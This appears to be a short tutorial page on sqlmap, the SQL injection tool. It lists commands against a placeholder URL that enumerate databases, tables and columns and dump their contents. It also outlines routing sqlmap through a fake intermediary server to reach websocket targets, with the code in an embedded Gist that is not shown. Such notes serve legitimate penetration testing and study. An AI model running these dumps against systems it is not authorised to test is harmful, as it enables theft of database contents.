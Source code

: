 import Gist from 'react-gist';

# 🗃️ sqlmap

<p align="center">
    <img src={require("./assets/sqlmap.png").default}></img>
</p>

Use `-u` to define the target url and `--batch` to use the default behavior without asking for input.

In the next commands, `id` is a query parameter that is vulnerable to SQL injection.

Enumerate databases.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dbs
```

Enumerate tables of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --tables -D db_name
```

Enumerate tables content of a specific database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name
```

Enumerate content by specifing table, column, and database.

```bash
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name -T table_name -C col_name
```

## Extras

### Using sqlmap with websockets

sqlmap may not support all types of requests, including those made over websockets. Also, working with complex targets can sometimes be cumbersome using sqlmap alone.

To simplify the process, it is possible to set up a fake server as an intermediary. In this way, sqlmap would make a request to the fake server using a common format, and the fake server would then make the more complex request to the actual target.

<p align="center">
    <img src={require("./assets/sqlmap_over_websockets.png").default}></img>
</p>

<Gist id="4adec402e51df2bf3e35066172abaebf" />
